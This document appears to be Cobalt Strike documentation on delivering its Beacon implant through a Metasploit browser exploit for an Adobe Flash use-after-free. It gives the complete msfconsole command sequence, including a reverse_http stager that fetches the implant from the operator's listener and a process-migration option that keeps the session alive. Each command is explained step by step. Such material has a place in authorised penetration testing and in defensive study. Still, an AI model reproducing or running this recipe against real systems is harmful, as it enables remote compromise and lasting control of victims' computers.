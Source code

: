 # Deliver Beacon with a Metasploit Framework Exploit

#### You may use a Metasploit Framework exploit to deliver Cobalt Strike’s Beacon. The [Beacon payload](https://www.cobaltstrike.com/help-beacon) is compatible with the [Metasploit Framework’s staging protocol](https://www.cobaltstrike.com/2013/06/28/staged-payloads-what-pen-testers-should-know/). To deliver a Beacon with a Metasploit Framework exploit, type:

<pre>
use exploit/multi/browser/adobe_flash_hacking_team_uaf
set PAYLOAD windows/meterpreter/reverse_http
set LHOST [Cobalt Strike's IP or hostname]
set LPORT 80
set DisablePayloadHandler True
set PrependMigrate True
exploit -j
</pre>

Here’s an explanation of these commands:

1. Use the exploit module you want to deliver Beacon with.

2. Set PAYLOAD to windows/meterpreter/reverse_http for an HTTP Beacon. Set PAYLOAD to windows/meterpreter/reverse_https for an HTTPS Beacon. You’re not really delivering Meterpreter here. You’re telling the Metasploit Framework to generate an HTTP (or HTTPS) stager to download a payload from the specified LHOST/LPORT.

3. Set LHOST and LPORT to point to your Cobalt Strike listener. Cobalt Strike will know what to do when it receives a request from a Metasploit Framework stager.

4. Set DisablePayloadHandler to True. This tells the Metasploit Framework that it does not need to create a handler within the Metasploit Framework to service a payload connection.

5. Set PrependMigrate to True. This option tells the Metasploit Framework to modify its stager to migrate to another process, immediately after exploitation. This option is very important for client-side attacks. It allows your session to survive if the exploited application crashes or closes.

#### [POC Video](https://youtu.be/fnCLdPOmZOk)